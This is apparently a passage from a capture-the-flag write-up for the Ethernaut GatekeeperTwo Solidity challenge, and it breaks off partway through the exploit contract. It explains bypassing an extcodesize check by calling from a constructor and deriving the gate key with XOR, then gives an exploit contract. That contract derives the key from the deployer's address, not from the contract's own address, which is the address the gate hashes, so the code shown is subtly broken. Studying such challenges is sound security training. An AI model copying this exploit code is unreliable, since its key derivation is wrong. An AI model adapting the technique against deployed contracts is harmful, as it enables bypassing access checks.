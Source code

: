 This seems contradictory at first glance because contracts need code to execute. However, there's a special case: **during a contract's constructor execution, before the constructor finishes, the contract's code size is zero**.

This is because the code is only stored to the blockchain after the constructor completes execution. During the constructor, the contract exists but its code is not yet stored.

To exploit this, we need to make the call to the GatekeeperTwo's `enter` function from within our exploit contract's constructor.

### Gate Three Solution

Gate Three requires:
```solidity
uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max
```

To solve this, we need to understand that:
1. `type(uint64).max` is all 1's in binary (0xffffffffffffffff)
2. XOR has a special property: if A ^ B = C, then A ^ C = B

So we can solve for `_gateKey` as follows:
```
uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) = type(uint64).max
uint64(_gateKey) = uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ type(uint64).max
```

Another way to think about this: XORing any value with all 1's gives its bitwise complement (NOT). So we're finding the complement of the hash of `msg.sender`.

### Exploit Contract

The solution involves creating a contract that calls the `enter` function from its constructor, with a key calculated using the XOR properties:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IGatekeeperTwo {
    function enter(bytes8 _gateKey) external returns (bool);
    function entrant() external view returns (address);
}

contract GatekeeperTwoExploit {
    address public owner;
    address public gatekeeperAddress;
    bool public success;
    
    constructor(address _gatekeeperAddress) {
        owner = msg.sender;
        gatekeeperAddress = _gatekeeperAddress;
        
        // We must call the enter function in the constructor because:
        // - Gate One: msg.sender != tx.origin - fulfilled by calling from a contract
        // - Gate Two: extcodesize(caller()) == 0 - fulfilled because during construction, extcodesize is 0
        
        // Generate the gate key for Gate Three
        bytes8 gateKey = generateGateKey(msg.sender);
        
        // Call the enter function
        bool result = IGatekeeperTwo(gatekeeperAddress).enter(gateKey);
        success = result;
    }
    
    function generateGateKey(address _caller) public pure returns (bytes8) {
        // Gate Three requirement:
```